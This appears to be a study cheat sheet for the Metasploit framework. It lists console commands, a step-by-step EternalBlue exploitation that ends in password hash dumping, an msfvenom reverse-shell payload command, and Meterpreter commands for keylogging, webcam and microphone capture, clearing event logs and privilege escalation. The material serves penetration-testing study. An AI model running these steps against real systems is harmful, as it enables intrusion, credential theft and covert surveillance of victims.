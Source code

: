 # Metasploit

## Background

Metasploit is an open-source exploitation framework that provides a platform to automate and simplify the process of discovering, exploiting and reporting vulnerabilities in a target system. The framework integrates a large collection of exploits, payloads, and auxiliary modules to aid in a wide range of security testing tasks.

## Installation

## Usage

The steps for using Metasploit include:

Installing and setting up the Metasploit Framework on your computer.
Finding a target and determining what vulnerabilities it may have.
Selecting and configuring an appropriate exploit module in Metasploit.
Launching the exploit against the target and assessing the results.
Post-exploitation activities, such as gathering information, installing backdoors, or pivoting to other systems.



`msfconsole`
`use`
`show options`
`info`
`search`
`search apache`
`search portscan`
`set PARAMETER_NAME VALUE`
`unset`
`setg`
`exploit -z`
`check`
`sessions -i`
`msfvenom`
`scanner/discovery/udp_sweep`
`msfdb init`
`db_status`
`workspace -h`
Use msfdb to use stored information about current project/workspace
Common vulnerable services:

* HTTP
* FTP
* SMB
* SSH
* RDP

To exploit eternal blue:

`msconsole`
`search eternalblue`
`use 0`
`show payloads`
`set payload 2`
`set RHOSTS {targetIP}`
`show options` (ensure lhosts = {attackIP})
`exploit`
Upon session connection, use CTRL+Z to put session in background
`use_shell_to_meterpreter`
`show options`
`set SESSION 1`
`sessions -u 1`
`hashdump`

Msfvenom: used to generate payloads

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Meterpreter: metasploit payload with pentesting components
Show meterpreter payloads: msfvenom --list payloads | grep meterpreter

Meterpreter Commands

Core commands

background: Backgrounds the current session
exit: Terminate the Meterpreter session
guid: Get the session GUID (Globally Unique Identifier)
help: Displays the help menu
info: Displays information about a Post module
irb: Opens an interactive Ruby shell on the current session
load: Loads one or more Meterpreter extensions
migrate: Allows you to migrate Meterpreter to another process
run: Executes a Meterpreter script or Post module
sessions: Quickly switch to another session

File system commands

cd: Will change directory
ls: Will list files in the current directory (dir will also work)
pwd: Prints the current working directory
edit: will allow you to edit a file
cat: Will show the contents of a file to the screen
rm: Will delete the specified file
search: Will search for files
upload: Will upload a file or directory
download: Will download a file or directory

Networking commands

arp: Displays the host ARP (Address Resolution Protocol) cache
ifconfig: Displays network interfaces available on the target system
netstat: Displays the network connections
portfwd: Forwards a local port to a remote service
route: Allows you to view and modify the routing table

System commands

clearev: Clears the event logs
execute: Executes a command
getpid: Shows the current process identifier
getuid: Shows the user that Meterpreter is running as
kill: Terminates a process
pkill: Terminates processes by name
ps: Lists running processes
reboot: Reboots the remote computer
shell: Drops into a system command shell
shutdown: Shuts down the remote computer
sysinfo: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu)

idletime: Returns the number of seconds the remote user has been idle
keyscan_dump: Dumps the keystroke buffer
keyscan_start: Starts capturing keystrokes
keyscan_stop: Stops capturing keystrokes
screenshare: Allows you to watch the remote user's desktop in real time
screenshot: Grabs a screenshot of the interactive desktop
record_mic: Records audio from the default microphone for X seconds
webcam_chat: Starts a video chat
webcam_list: Lists webcams
webcam_snap: Takes a snapshot from the specified webcam
webcam_stream: Plays a video stream from the specified webcam
getsystem: Attempts to elevate your privilege to that of local system
hashdump: Dumps the contents of the SAM database

Meterpreter Post Exploitation Commands

* getuid: user Meterpreter using
* ps: running processes
* Migrate: interacting with other processes: migrate PID
* Hashdump: dump content of SAM to get NTLM hashes
* Search: locate files: search -f */txt
* getsystem
* Load command

* Common paramaters:
  * RHOSTS
  * RPORT
  * PAYLOAD
  * LHOST
  * LPORT
  * SESSION


## Resources

* <https://docs.metasploit.com/>

<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md>
<https://github.com/swisskyrepo/PayloadsAllTheThings>
<https://github.com/security-cheatsheet/metasploit-cheat-sheet>
<https://github.com/spy86/Metasploit-Cheat-Sheet>

* The Metasploit official documentation, which provides in-depth information on how to use the tool and its various features.
* Metasploit Unleashed, a free online resource that provides a comprehensive guide to using Metasploit, including tutorials and examples.
* Metasploit YouTube channel, which features a variety of tutorials and demonstrations on how to use Metasploit.
* Online forums and communities dedicated to Metasploit, where users can ask questions and share information.
* Metasploit Pro, a paid version of the tool that includes additional features and support options. This can be a good resource for users who want additional assistance and resources for using Metasploit.

https://nitesculucian.github.io/2018/12/01/metasploit-cheat-sheet/

https://github.com/security-cheatsheet/metasploit-cheat-sheet


https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md

https://subscription.packtpub.com/book/security/9781838980078/15/ch15lvl1sec96/cheat-sheets-for-metasploit-and-penetration-testing